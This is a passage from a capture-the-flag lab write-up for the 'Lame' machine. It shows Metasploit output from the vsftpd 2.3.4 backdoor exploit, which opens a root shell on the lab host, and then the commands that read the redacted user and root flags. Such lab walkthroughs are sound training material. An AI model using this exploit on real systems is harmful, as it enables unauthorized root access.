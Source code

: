 ```console
6200:udp                   ALLOW   Anywhere
```

Let's try our exploit again.

```console
[msf](Jobs:0 Agents:1) exploit(unix/ftp/vsftpd_234_backdoor) >> run

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[+] 10.10.10.3:21 - Backdoor service has been spawned, handling...
[+] 10.10.10.3:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 3 opened (10.10.14.38:44067 -> 10.10.10.3:6200) at 2024-10-15 10:41:38 -0500

whoami
root
```

And there we go, a root shell. 

***

### Obtaining the Flags 

Fortunately, this is straightforward. There are no further surprises on this machine.

```console
(Meterpreter 2)(/) > shell
Process 6293 created.
Channel 1 created.
find . -name user.txt
./home/makis/user.txt
cat /home/makis/user.txt
{FLAG REDACTED}
cat root/root.txt
{FLAG REDACTED}
```

**That's it, nothing too lame about lame!**

*** 

### References

[^footnote]: https://www.exploit-db.com/exploits/17491

